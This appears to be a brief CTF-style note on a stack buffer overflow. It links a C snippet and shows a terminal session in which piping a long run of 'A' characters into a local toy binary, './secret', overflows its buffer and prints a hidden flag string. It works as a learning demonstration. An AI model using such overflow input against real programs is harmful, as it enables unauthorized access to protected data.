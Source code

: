 # Stack 

Example:

<script src="https://gist.github.com/n41n4/496691de46d5202aec5585a722763ffa.js?file=snippet.c"></script>

Exploit:

```bash
inc0gn1t0@inc0gn1t0-VirtualBox:~/Redacted$ ./secret 
Guest
Welcome Guest

inc0gn1t0@inc0gn1t0-VirtualBox:~/Redacted$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | ./secret 
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAASup3r_S3cr37_S7r1n6


```

